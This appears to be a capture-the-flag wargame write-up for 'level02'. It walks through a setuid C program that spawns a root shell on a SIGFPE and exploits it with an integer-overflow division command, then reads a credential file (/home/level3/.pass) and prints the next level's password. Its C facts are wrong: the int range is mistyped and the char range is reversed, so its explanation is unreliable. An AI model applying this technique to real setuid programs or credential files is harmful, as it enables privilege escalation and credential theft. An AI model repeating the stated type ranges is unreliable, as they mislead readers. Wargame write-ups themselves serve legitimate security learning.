Level02

12/25/15

Checking out the files in the directory levels there are 4 files relating to level 2.

````
level02
level02_alt
level02.c
level02_alt.c
```
Running level02 we are granted with the phrase 
````
"source code is available in level02.c"
````
So we use vim to view the source code of level02.c to analyze what is happening. 
````c
  1 //a little fun brought to you by bla
  2
  3 #include <stdio.h>
  4 #include <stdlib.h>
  5 #include <signal.h>
  6 #include <unistd.h>
  7
  8 void catcher(int a)                                   <------ So this is where we want to be
  9 {
 10         setresuid(geteuid(),geteuid(),geteuid());
 11     printf("WIN!\n");
 12         system("/bin/sh");
 13         exit(0);
 14 }
 15
 16 int main(int argc, char **argv)                         <------- Begining of main statement. Looking input for an int and char as inputs.
 17 {
 18     puts("source code is available in level02.c\n");    <-------- Prints this when ran
 19
 20         if (argc != 3 || !atoi(argv[2]))        <------ argc has to  not be 3 or not be able to convert an array to an int from argv
 21                 return 1;                       <------ return if either is true not allowing us to to get to the part that matters
 22         signal(SIGFPE, catcher);                <------ signal reports a fatal arithmetic error which results on the catcher to be used.
 23         return abs(atoi(argv[1])) / atoi(argv[2]); <--- If an error is returned here then catcher is signaled.
 24 }
 25
`````
So essentially we need to figure out how to break the function.
A little search about the limitation of datatypes in C shows us the ranges of an Int and a Char

* A int stores data from -21474836478 to 2147483647.
* A char stores data from -127 to 128.

So in order to make the arithmetic on line 23 of level02.c We need to run it with the following arguments.
```
./level02 -21473836478 -1
```
On line 23 the following happens:
```
(-21473836478)/(-1) = 21473836478
```
But wait, what is the limitation of the integer? -21474836478 to 2147483647! 21473836478 is outside the limit of an Int Value causing the catcher to trigger.

Success! 

Using cat /home/level3/.pass we are granted with level3 access with password ~~OlhCmdZKbuzqngfz~~
